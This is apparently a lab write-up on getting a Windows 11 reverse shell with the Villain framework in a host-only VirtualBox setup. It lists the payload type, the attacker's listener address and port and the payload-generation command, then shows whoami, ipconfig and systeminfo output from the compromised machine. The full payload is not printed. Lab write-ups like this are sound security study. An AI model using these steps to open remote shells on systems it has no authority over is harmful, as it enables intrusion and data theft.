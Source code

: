 # 🦹‍♂️ Villain Framework Reverse Shell Report

> **Lab-only disclaimer:** This exercise was performed strictly on my own isolated VMs for learning and defensive purposes. No third-party or production systems were targeted.

---

## ⚙️ Setup Info
| Parameter | Value |
|-----------|-------|
| Payload | `windows/reverse_tcp/powershell` |
| LHOST | `192.168.56.101` |
| LPORT | `8080` |
| Target OS | Windows 11 Home Single Language (Build 22631) |
| Attacker OS | Kali Linux |

---

## 🔁 Payload Delivery Method
- **Method:** Payload generated in Villain using `generate os=windows lhost=eth1`.
- **Execution:** The generated PowerShell command was executed on the target VM in a PowerShell terminal.
- **Network:** Host-only VirtualBox network between Kali attacker VM and Windows target VM.

---

## 🖥️ Captured Info
| Field | Value |
|-------|-------|
| Hostname | LAPTOP-JNNA97BM |
| IP Address | 192.168.56.1 |
| User | laptop-jnna97bm\lenovo |

---

## 🔎 Enumeration Performed
```powershell
whoami
laptop-jnna97bm\lenovo

ipconfig
Ethernet adapter Ethernet 3:
   IPv4 Address. . . . . . . . . . . : 192.168.56.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

Wireless LAN adapter Wi-Fi:
   IPv4 Address. . . . . . . . . . . : 10.30.56.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

systeminfo
Host Name:                 LAPTOP-JNNA97BM
OS Name:                   Microsoft Windows 11 Home Single Language
OS Version:                10.0.22631 N/A Build 22631
System Manufacturer:       LENOVO
System Model:              82K2
System Type:               x64-based PC
Processor(s):              AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~1908 Mhz
Total Physical Memory:     14,188 MB
